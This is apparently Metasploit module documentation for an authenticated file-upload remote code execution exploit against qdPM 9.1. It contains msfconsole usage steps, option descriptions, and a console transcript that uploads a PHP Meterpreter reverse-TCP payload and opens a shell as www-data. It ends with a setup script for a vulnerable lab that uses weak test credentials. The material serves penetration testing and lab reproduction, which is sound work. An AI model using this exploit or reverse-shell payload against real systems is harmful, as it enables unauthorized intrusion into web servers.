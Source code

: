 ## Vulnerable Application

This module exploits a arbitrary file upload vulnerability in the qdPM web-based project manager software, in its 9.1 version. When updating a user's profile (POST `myAccount/update`), the user is allowed to upload a profile picture, which is stored in a known location under the web server root. The software fails to verify the picture input, allowing for the upload of any file, with any filename extension. This can be exploited by uploading a PHP script and invoking it by making a request to it. 
The script will run with the same privileges as the web server.
The module has been tested against qdPM version 9.1

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/qdpm_authenticated_rce`
- [ ] `set EMAIL <email>`
- [ ] `set PASSWORD <password>`
- [ ] `set TARGETURI <target_uri>`
- [ ] `set RHOST <rhost>`
- [ ] `set RPORT <rport>`
- [ ] `exploit`
- [ ] Add SSL, Proxy, and VHOST options if needed.
- [ ] Verify that a new session is created.

## Options

  **EMAIL**  
  [Required]  
  The email of the user you want to exploit the software with. The user must NOT be the original Admin (i.e. the account created upon installing qdPM, `admin@your_domain.com`). The original Admin user does not have the same attributes as the other user created later on, and its profile picture cannot be changed. In fact, it has no profile picure nor a `/myAccount` page altogether. If you only have credentials for the original admin, you can always login and create another regular user to run this exploit. Note that users with Admin role are also exploitable, only the one created upon installation is not.

  **PASSWORD**  
  [Required]  
  The password of the user you are trying to exploit.

  **TARGETURI**  
  The path qdPM lives at. This is only needed is qdPM is not served from the webserver root folder.

## Scenarios

As it can be shown by the following scenarios, the exploit works reliably against a variety of targets. The exploit, however, might fail when a large payload (i.e. stageless meterpreter) is selected.
  
   
  **Attacking with a generic PHP payload, OS independed**

```
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Generic\ (PHP\ Payload)
target => Generic (PHP Payload)
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit

[*] Started reverse TCP handler on 192.168.2.177:4444
[*] Attempt to login with 'johndoe@localhost.com:easyone'
[*] Uploading PHP payload (1123 bytes)...
[*] Executing 'JGvak.php'
[*] Sending stage (39927 bytes) to 192.168.2.177
[!] Removing: 993379-JGvak.php
[*] Meterpreter session 2 opened (192.168.2.177:4444 -> 192.168.2.177:43816) at 2022-06-14 10:03:46 +0200

(Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
Server username: www-data
```

## Installation

QDPM 9.1 relies on outdated software, and installing it can be quite nuanced. Please run the provided script to get the application set up together with a web server, the right version of PHP, and MySQL. This is tested on a fresh installation of Ubuntu Server 22.04.

```
apt install software-properties-common -y
add-apt-repository ppa:ondrej/php
apt update
apt install -y nginx php7.3-fpm php7.3-mysql php7.3-xml php7.3-gd mariadb-server unzip wget
systemctl enable --now mariadb.service php7.3-fpm.service
mysql -e "UPDATE mysql.user SET Password = PASSWORD('password') WHERE User = 'root'"
mysql -e "DROP USER ''@'$(hostname)'"
mysql -e "DROP DATABASE test"
mysql -e "FLUSH PRIVILEGES"
mysql -e "CREATE DATABASE qdpm_db default charset utf8"
mysql -e "CREATE USER 'user'@'localhost' IDENTIFIED BY 'pass'"
mysql -e "GRANT ALL PRIVILEGES ON qdpm_db.* TO 'user'@'localhost';"
cd /opt
wget https://www.exploit-db.com/apps/f922670e98bcbcff923d9bfaf430e669-qdPM_9.1.zip -O qdPM_9.1.zip
unzip -d /var/www/html/qdpm qdPM_9.1.zip
rm qdPM_9.1.zip
chown -R www-data:www-data /var/www/html/qdpm/
rm /etc/nginx/sites-available/default
rm /etc/nginx/sites-enabled/default
tee -a /etc/nginx/sites-available/default > /dev/null <<EOT
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /var/www/html/qdpm/;
    index index.php;

    location / {
        try_files \$uri /index.php\$is_args\$args;
    }

    location ~* \.php$ {
        fastcgi_pass unix:/var/run/php/php7.3-fpm.sock;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME \$realpath_root\$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT \$realpath_root;
    }

    error_log /var/log/nginx/qdpm_error.log;
    access_log /var/log/nginx/qdpm_access.log;
}
EOT
ln -s /etc/nginx/sites-available/default /etc/nginx/sites-enabled/
systemctl start nginx.service
systemctl reload nginx.service
```

If the script runs successfully, you should have a webserver serving the application on port 80.  
Visit the website to complete the installation via the web installer. It will ask you to fill in the database name, user, and password. Those will be `qdpm_db`, `user`, and `pass` respectively. Then, create a password for your `admin@localhost.com` account and login with it. You can now create a second user to run the exploit against.